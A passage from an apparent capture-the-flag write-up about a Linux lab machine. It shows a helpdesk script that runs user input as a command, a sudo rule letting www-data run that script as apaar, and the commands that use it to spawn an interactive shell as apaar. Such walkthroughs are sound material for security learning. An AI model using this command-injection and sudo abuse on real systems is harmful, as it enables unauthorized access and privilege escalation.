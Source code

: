 ```
655377 -rw-r--r-- 1 apaar apaar  807 Oct  3 04:25 .profile
655385 drwxr-xr-x 2 apaar apaar 4096 Oct  3 05:19 .ssh
655381 -rw------- 1 apaar apaar  817 Oct  3 04:27 .viminfo
655378 -rw-rw---- 1 apaar apaar   46 Oct  4 07:25 local.txt
```

The file helpline.sh contains a mock helpdesk script:

```
$ cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
$ 

```

We can see that the msg variable could be executed as a command, with errors redirected to /dev/null

Checking if the user can run anything with elevated privileges we see that www-data can run helpline.sh as apaar:
```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
...

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Upgrade to a proper shell:

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Run the helpline script as the user apaar, enter the message as `/bin/sh -i` to get an interactive shell:

```
www-data@ubuntu:/home/apaar$ sudo -u apaar /home/apaar/.helpline.sh
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: john
john
Hello user! I am john,  Please enter your message: /bin/sh -i   
/bin/sh -i
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
```
